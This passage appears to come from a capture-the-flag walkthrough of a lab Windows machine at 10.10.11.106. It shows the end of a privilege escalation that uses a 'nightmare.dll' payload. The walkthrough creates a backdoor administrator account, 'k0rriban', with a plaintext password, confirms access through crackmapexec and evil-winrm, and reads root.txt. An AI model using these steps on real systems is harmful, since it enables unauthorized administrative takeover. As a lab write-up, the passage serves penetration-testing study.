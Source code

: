 ```powershell
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
*Evil-WinRM* PS C:\Users\tony\Desktop> net user k0rriban
User name                    k0rriban
Full Name                    k0rriban
Comment
Users comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/5/2022 9:15:44 AM
Password expires             Never
Password changeable          6/5/2022 9:15:44 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```
We created a new user `k0rriban` and added it to the `Administrators` group. Let's check the connection via `evil-winrm`:
```powershell
❯ crackmapexec winrm 10.10.11.106 -u "k0rriban" -p "revan1234"
SMB         10.10.11.106    5985   NONE             [*] None (name:10.10.11.106) (domain:None)
HTTP        10.10.11.106    5985   NONE             [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   NONE             [+] None\k0rriban:revan1234 (Pwn3d!)
❯ evil-winrm -i 10.10.11.106 -u "k0rriban" -p "revan1234"

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\k0rriban\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/4/2022  10:01 PM             34 root.txt
```
We successfully obtained an Administrator user and the `root.txt` file.

